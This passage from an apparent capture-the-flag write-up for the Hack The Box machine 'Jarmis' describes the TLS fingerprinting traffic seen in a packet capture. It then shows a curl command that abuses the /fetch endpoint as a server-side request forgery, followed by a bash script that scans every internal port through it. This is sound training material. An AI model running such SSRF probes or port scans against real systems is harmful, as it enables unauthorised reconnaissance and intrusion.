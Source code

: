 We can see `13 packets`. `10` of them are `Client Hello` packet and the `11`'s is an `application Data` request. We can conclude that the server send `10 TLS` requests to the server that he is querying and if it is flagged as `malicious`, he sends an `11th` request to grab its `metadata`.   


We can try to play with the `/fetch` endpoint, maybe discover some `internal` open ports of the system itself.     

```bash
curl http://jarmis.htb/api/v1/fetch?endpoint="http://localhost:22"
```

We can see some `outputs`.  

<br/> 
<img src="/img/Jarmis_Screenshots/Pasted image 20250101235029.png" alt="1" style="width:700px; height:auto;">
<br/>

We already know that `22` and `80` are open, we can see a different response if we provide a `random` `port`. We can make a small `script` to see what `ports` are open. internally.   

```bash
#!/bin/bash

query_port() {
    local port=$1
    response=$(curl -s "http://jarmis.htb/api/v1/fetch?endpoint=http://localhost:$port")

    if ! echo "$response" | grep -q '"endpoint":"null"' && ! echo "$response" | grep -q '502 Bad Gateway'; then
        echo "Port: $port"
        echo "Response: $response"
    fi
}


export -f query_port

for port in {1..65535}; do
    query_port "$port" &

    if (( $(jobs -r | wc -l) >= 100 )); then
        wait -n
    fi
done

wait
```

